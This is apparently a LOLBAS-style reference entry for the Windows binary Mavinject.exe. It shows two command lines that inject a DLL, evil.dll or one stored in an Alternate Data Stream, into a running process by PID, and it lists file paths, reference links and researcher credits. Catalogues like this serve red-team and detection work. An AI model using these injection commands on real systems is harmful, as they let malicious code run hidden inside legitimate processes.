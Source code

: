 ## Mavinject.exe
```

MavInject.exe 3110 /INJECTRUNNING c:\folder\evil.dll
Inject evil.dll into a process with PID 3110.

Mavinject.exe 4172 /INJECTRUNNING "c:\ads\file.txt:file.dll"
Inject file.dll stored as an Alternate Data Stream (ADS) into a process with PID 4172.
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: False   
* Mitre: []()   
   
* Links:   
  * https://twitter.com/gN3mes1s/status/941315826107510784
  * https://twitter.com/Hexcorn/status/776122138063409152
  * https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
  * https://posts.specterops.io/mavinject-exe-functionality-deconstructed-c29ab2cf5c0e
   
* File path:   
  * C:\Windows\System32\mavinject.exe
  * C:\Windows\SysWOW64\mavinject.exe
   
* Acknowledgement:   
  * Name: Giuseppe
    * Twitter: [@gN3mes1s](https://twitter.com/@gN3mes1s)
    * Blog: https://quequero.org/
  * Name: Adam
    * Twitter: [@hexacorn](https://twitter.com/@hexacorn)
    * Blog: http://www.hexacorn.com/blog/
  * Name: Oddvar Moe
    * Twitter: [@oddvarmoe](https://twitter.com/@oddvarmoe)
    * Blog: http://oddvar.moe
  * Name: Matt Graeber
    * Twitter: [@mattifestation ](https://twitter.com/@mattifestation )
    * Blog: http://www.exploit-monday.com/
   
OS:  
